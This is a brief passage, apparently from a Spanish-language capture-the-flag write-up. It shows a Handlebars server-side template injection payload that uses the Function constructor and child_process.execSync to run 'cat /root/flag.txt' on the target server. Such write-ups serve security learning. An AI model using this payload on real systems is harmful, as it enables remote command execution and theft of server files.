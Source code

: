 ![](../img/c782abdc81a506ad410aa49c3b294a00.png)

🌟 Esto confirma que existe un archivo `flag.txt` en `/root`, que puede ser leído con un payload similar utilizando `cat /root/flag.txt`.

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
```